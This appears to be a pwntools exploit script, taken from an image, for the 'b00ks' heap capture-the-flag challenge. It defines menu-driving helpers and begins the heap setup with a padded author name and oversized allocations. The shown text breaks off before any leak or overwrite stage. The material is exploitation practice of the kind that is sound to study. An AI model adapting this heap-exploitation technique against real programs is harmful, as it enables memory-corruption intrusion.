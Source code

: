 ```python
from pwn import *
context.log_level="info"

binary = ELF("b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
io = process("./b00ks")


def createbook(name_size, name, des_size, des):
	io.readuntil("> ")
	io.sendline("1")
	io.readuntil(": ")
	io.sendline(str(name_size))
	io.readuntil(": ")
	io.sendline(name)
	io.readuntil(": ")
	io.sendline(str(des_size))
	io.readuntil(": ")
	io.sendline(des)

def printbook(id):
	io.readuntil("> ")
	io.sendline("4")
	io.readuntil(": ")
	for i in range(id):
		book_id = int(io.readline()[:-1])
		io.readuntil(": ")
		book_name = io.readline()[:-1]
		io.readuntil(": ")
		book_des = io.readline()[:-1]
		io.readuntil(": ")
		book_author = io.readline()[:-1]
	return book_id, book_name, book_des, book_author

def createname(name):
	io.readuntil("name: ")
	io.sendline(name)

def changename(name):
	io.readuntil("> ")
	io.sendline("5")
	io.readuntil(": ")
	io.sendline(name)

def editbook(book_id, new_des):
	io.readuntil("> ")
	io.sendline("3")
	io.readuntil(": ")
	io.writeline(str(book_id))
	io.readuntil(": ")
	io.sendline(new_des)

def deletebook(book_id):
	io.readuntil("> ")
	io.sendline("2")
	io.readuntil(": ")
	io.sendline(str(book_id))

createname("A" * 32)
createbook(128, "a", 32, "a")
createbook(0x21000, "a", 0x21000, "b")


```